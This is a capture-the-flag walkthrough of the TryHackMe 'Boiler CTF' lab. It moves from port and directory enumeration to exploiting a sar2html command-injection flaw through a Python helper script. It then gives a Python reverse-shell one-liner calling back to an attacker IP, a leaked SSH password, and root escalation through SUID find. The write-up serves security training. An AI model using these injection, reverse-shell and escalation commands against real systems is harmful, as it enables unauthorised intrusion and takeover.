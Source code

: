 # Boiler CTF (THM)

- https://tryhackme.com/room/boilerctf2
- March 21, 2023
- medium

---

## Enumeration

### Nmap

- need to scan all ports

```
PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
10000/tcp open  http    syn-ack MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

### FTP

- anonymous login allowed
- enter ftp with anonymous and check the contents with `ls -la` 
- found `.info.txt` and contents are

```
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
- it is just rot13
- `Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`


### HTTP

- default Apache page
- directory brute forcing with ffuf

```
index.html   
joomla       
manual       
robots.txt   
```

- manual 

![](screenshots/2023-03-21-17-59-52.png)

- joomla 

![](screenshots/2023-03-21-18-00-16.png)

- directory brute forcing at `/joomla`

```
_archive       
_database      
_files         
_test          
administrator  
bin            
build          
cache          
components     
images         
includes       
installation   
index.php      
language       
layouts        
libraries      
media          
modules        
plugins        
templates      
tests          
tmp            
~www           
```

- robots.txt

```
/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it
079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
- tried to crack last ascii values
- at this time directory brute force the `/joomla`

- `/joomla/_files`

![](screenshots/2023-03-21-18-23-32.png)

- double decode base64 -> Whopsie daisy 
- don't know where to use

- `/joomla/_test`

![](screenshots/2023-03-21-18-26-51.png)

- sar2html has an RCE exploit

![](screenshots/2023-03-21-18-30-34.png)

- download and read the txt file
- it is said get request to `baseurl/index.php?plot=;<command-here>` and in drop down menu of select host, result of command appear as last choice


![](screenshots/2023-03-21-18-34-36.png)

- wrote some python scripts to make command execution easier

```python
import requests
from bs4 import BeautifulSoup

url = "http://10.10.253.57/joomla/_test/index.php?plot=;"

while True:
    cmd = input('>> Enter command: ')
    r = requests.get(url + cmd)

    soup = BeautifulSoup(r.text, features='lxml')
    for option in soup.find_all('option'):
        print(option.text)
```


## User Access

- check whether python exists and get reverse shell with python

```sh
export RHOST="10.11.8.57";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

![](screenshots/2023-03-21-18-52-24.png)

- found log file and in log file, may be ssh credentials

![](screenshots/2023-03-21-18-54-02.png)

- enter with basterd user superduperp@$$

## Root Access

- find suid values and found find command 

```
basterd@Vulnerable:/tmp$ find / -perm -4000 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
...
```
- from gtfobins, 

```
basterd@Vulnerable:/tmp$ find . -exec /bin/sh -p \; -quit
```
- get root access

---
